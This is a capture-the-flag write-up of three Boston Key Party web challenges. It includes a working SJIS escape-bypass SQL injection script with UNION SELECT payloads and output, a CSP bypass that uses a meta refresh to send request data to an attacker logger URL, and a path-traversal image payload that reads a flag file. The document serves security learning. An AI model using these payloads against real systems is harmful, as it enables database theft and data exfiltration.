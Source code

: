 Participated as dcua.


## Good Morning (3pt)

The server pretty seem to be decent, but I've wasted a lot of time testing in a local server. 

The intended way was to bypass the escape_string() feature, by eating up the escaped character to make one backslash with one quote. (```\\"``` => ```?\"```)

bypassing ```escape_string()``` does not work on an UTF-8 encoding, however server used a SJIS encoding, which has a potential of escape string problems.


```
#!/usr/bin/python
#-*- coding: utf-8 -*-

from websocket import create_connection
import json
import sys0
reload(sys)
sys.setdefaultencoding("ISO-8859-1")

INJ = " AND 1=0 UNION SELECT COLUMN_NAME,2,3 FROM INFORMATION_SCHEMA.COLUMNS -- "

# SELECT * FROM answers WHERE question="%s" AND answer="%s"

payload = '¥\u005c'

#ws = create_connection("ws://localhost:5000/ws")
ws = create_connection("ws://52.86.232.163:32800/ws")
result =  ws.recv()

packet = '''{"type":"get_answer","question":"'''+payload+'''","answer":"'''+INJ+'''"}'''
print(">>> '%s'" % packet)
ws.send(packet)

result =  ws.recv()
print "<<< '%s'" % result
ws.close()
```

```
>>> '{"type":"get_answer","question":"¥\u005c","answer":" AND 1=0 UNION SELECT TABLE_NAME, COLUMN_NAME, 3 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA=0x67616e6261747465 LIMIT 1,1 -- "}'
<<< '{"type": "got_answer", "row": ["answers", "id", "3"]}'
<<< '{"type": "got_answer", "row": ["answers", "question", "3"]}'
<<< '{"type": "got_answer", "row": ["answers", "answer", "3"]}'
<<< '{"type": "got_answer", "row": null}'

...

>>> '{"type":"get_answer","question":"¥\u005c","answer":" AND 1=0 UNION SELECT id, question, answer FROM answers WHERE id=1 -- "}'
<<< '{"type": "got_answer", "row": [1, "flag", "BKPCTF{TryYourBestOnTheOthersToo}"]}'

BKPCTF{TryYourBestOnTheOthersToo}
```


## Bug Bounty (3pt)

Sounded more like a XSS challenge at the beginning, but CSP header was blocking to inject inline scripts and send the data back to our serverㄴ.

```
Content-Security-Policy: default-src 'none'; connect-src 'self';  frame-src 'self'; script-src 52.87.183.104:5000/dist/js/ 'sha256-KcMxZjpVxhUhzZiwuZ82bc0vAhYbUJsxyCXODP5ulto=' 'sha256-u++5+hMvnsKeoBWohJxxO3U9yHQHZU+2damUA6wnikQ=' 'sha256-zArnh0kTjtEOVDnamfOrI8qSpoiZbXttc6LzqNno8MM=' 'sha256-3PB3EBmojhuJg8mStgxkyy3OEJYJ73ruOF7nRScYnxk=' 'sha256-bk9UfcsBy+DUFULLU6uX/sJa0q7O7B8Aal2VVl43aDs='; font-src 52.87.183.104:5000/dist/fonts/ fonts.gstatic.com; style-src 52.87.183.104:5000/dist/css/ fonts.googleapis.com; img-src 'self';
```

```
$ cat inline.txt | openssl dgst -sha256 -binary | openssl base64 # There are 5 hashes in the CSP header
KcMxZjpVxhUhzZiwuZ82bc0vAhYbUJsxyCXODP5ulto=           // ?????
u++5+hMvnsKeoBWohJxxO3U9yHQHZU+2damUA6wnikQ=     // "register user" script
zArnh0kTjtEOVDnamfOrI8qSpoiZbXttc6LzqNno8MM=            // "submit bug" script
3PB3EBmojhuJg8mStgxkyy3OEJYJ73ruOF7nRScYnxk=       // "show_report" script
bk9UfcsBy+DUFULLU6uX/sJa0q7O7B8Aal2VVl43aDs=       // captcha page script that loads captchas etc
```

As we searched for files in ```/dist/js```,

```
http://52.87.183.104:5000/dist/js/angular.min.js
http://52.87.183.104:5000/dist/js/app.js
http://52.87.183.104:5000/dist/js/angular-route.min.js
```

We were able to utilize AngularJS to initiate XSS payloads, but it was still not enough due to the CSP header.

so now what? Just use ```meta``` tag to get the request header, and you see the damn flag.

```
<meta http-equiv="refresh" content="0; url=http://yourdomain.com/logger.php" />
```

```BKPCTF{choo choo__here comes the flag}```

lol.


## optiproxy (2pt)

Was pretty easy,

```
#http://optiproxy.bostonkey.party:5300/source

...

begin
            if (uri_scheme == "http" or uri_scheme == "https")
                    url = image
            else
                    url = "http://#{url}/#{image}"
            end
            img_data = open(url).read
            b64d = "data:image/png;base64," + Base64.strict_encode64(img_data)
            img['src'] = b64d
    rescue
            # gotta catch 'em all
            puts "lole"
            next
    end
...

```

```
<html>
<body>
<img src="/http:/swag" /> 
<img src="http:/../../../../../../flag">
</body>
</html>
```

```BKPCTF{maybe dont inline everything.}```
